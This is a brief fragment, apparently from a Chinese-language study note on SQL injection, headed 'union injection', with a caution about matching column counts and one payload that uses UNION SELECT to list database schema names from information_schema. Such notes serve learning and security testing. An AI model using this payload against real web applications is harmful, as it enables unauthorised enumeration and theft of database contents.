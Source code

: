 ![局部截取_20250515_210421](./img/局部截取_20250515_210421.png)

### 联合注入

> [!CAUTION]
>
> 注意对齐数量。并且需要前面的报错

payload : `-dumb' union select 1,group_concat(schema_name) from information_schema.schemata #`
